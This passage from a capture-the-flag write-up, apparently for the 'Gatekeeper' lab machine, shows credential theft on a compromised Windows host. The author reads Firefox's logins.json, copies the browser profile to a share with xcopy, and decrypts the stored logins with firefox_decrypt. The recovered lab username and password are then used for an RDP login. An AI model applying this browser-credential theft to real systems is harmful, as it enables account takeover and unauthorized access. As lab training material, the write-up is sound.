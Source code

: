Firefox is installed and the current user seems used it, there are data in the local AppData:
![993110a4059958dab56f8ce0841ce656.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/993110a4059958dab56f8ce0841ce656.png)

```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>more logins.json
```
```json
{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://creds.com",
      "httpRealm": null,
      "formSubmitURL": "",
      "usernameField": "",
      "passwordField": "",
      "encryptedUsername": "MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECL2tyAh7wW+dBAh3qoYFOWUv1g==",
      "encryptedPassword": "MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECIcug4ROmqhOBBgUMhyan8Y8Nia4wYvo6LUSNqu1z+OT8HA=",
      "guid": "{7ccdc063-ebe9-47ed-8989-0133460b4941}",
      "encType": 1,
      "timeCreated": 1587502931710,
      "timeLastUsed": 1587502931710,
      "timePasswordChanged": 1589510625802,
      "timesUsed": 1
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```

Lets copy the entire profile to the public share:
```
xcopy /S /I /E C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release C:\Users\Share\firefox
```

Download it:
![5b757520c9b8f458c3020869d7e4e1d1.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/5b757520c9b8f458c3020869d7e4e1d1.png)

And decrypt the creds with https://github.com/unode/firefox_decrypt :
![2876d918fb1654b27d6a33150bebaeca.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/2876d918fb1654b27d6a33150bebaeca.png)

Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'

Using this creds to log in with RDP:
![93000f140fbd30678d574650816c4667.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/93000f140fbd30678d574650816c4667.png)
